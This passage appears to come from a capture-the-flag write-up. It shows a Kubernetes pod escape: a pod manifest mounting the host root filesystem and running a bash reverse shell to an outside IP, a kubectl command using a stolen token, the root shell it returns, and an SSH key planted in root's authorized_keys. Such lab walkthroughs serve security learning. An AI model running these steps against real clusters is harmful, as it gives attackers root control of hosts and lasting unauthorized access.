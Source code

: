 

    apiVersion: v1
    kind: Pod
    metadata:
      name: 0xdf-pod2
      namespace: default
    spec:
      containers:
      - name: 0xdf-pod2
        image: nginx:1.14.2
        command: ["/bin/bash"]
        args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"]
        volumeMounts:
        - mountPath: /mnt
          name: hostfs
      volumes:
      - name: hostfs
        hostPath:
          path: /
      automountServiceAccountToken: true
      hostNetwork: true



With `nc` listening, I'll create the pod:



    oxdf@hacky$ kubectl apply -f evil-pod2.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
    pod/0xdf-pod2 created



Immediately there's a connection:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.133 51442
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@steamcloud:/#



With this shell, I'll create the `.ssh` folder (if it doesn't exist from
earlier), and write my public key:



    root@steamcloud:/# mkdir -p /mnt/root/.ssh
    root@steamcloud:/mnt# cd /mnt/root/.ssh
    root@steamcloud:/mnt/root/.ssh# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > authorized_keys



Now I can SSH as root:
